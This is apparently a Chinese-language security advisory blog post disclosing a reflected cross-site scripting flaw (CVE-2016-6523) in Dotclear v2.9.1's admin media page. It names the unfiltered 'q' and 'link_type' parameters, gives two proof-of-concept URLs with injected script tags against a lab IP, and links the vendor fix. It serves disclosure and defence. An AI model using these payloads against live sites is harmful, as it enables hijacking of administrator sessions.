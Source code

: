 ```yaml
---
layout: post
title: Dotclear v2.9.1反射型xss [CVE-2016-6523]
---
```


发现者: 陈瑞琦 

发现日期: 2016-08-01

下载地址: [dotclear](https://dotclear.org/download)

作者: dotclear.org

作者通知日期: 2016-08-01

作者联系手段: security@dotclear.net

CVE ID: CVE-2016-6523

**描述:** 

Dotclear is an open source blog publishing application distributed under the GNU GPLv2. Developed originally by Olivier Meunier from 2002, Dotclear has now attracted a solid team of developers.[2] It is relatively popular in French speaking countries, where it is used by several major blogging platforms (Gandi Blogs,[3] Marine nationale,[4] etc.).(Wiki)

*渣翻*

Dotclear是一个基于GUN GPLv2的开源博客发布应用。在2002年由Olivier Meunier开发，现在已经吸引了一大个开发团队。在法语国家非常流行，并且为几个大型博客平台所用。


**细节:**

Dotclear v2.9.1 有一个反射型xss

/admin/media.php

line 34 $link_type = !empty($_REQUEST['link_type']) ? $_REQUEST['link_type'] : null;

line 62 $q = isset($_REQUEST['q']) ? $_REQUEST['q'] : null;

link_type 跟 q 参数缺少安全过滤

**PoC:**

http://172.16.146.130/dotclear/admin/media.php?q=77777%3C%2Fspan%3E%3Cscript%3Ealert(1)%3C/script%3E&popup=0&select=0&plugin_id=&post_id=&link_type=

http://172.16.146.130/dotclear/admin/media.php?q=77777&popup=0&select=0&plugin_id=&post_id=&link_type=8888%22%3E%3Cscript%3Ealert(1)%3C/script%3E

**修复方案:**

https://hg.dotclear.org/dotclear/rev/40d0207e520d
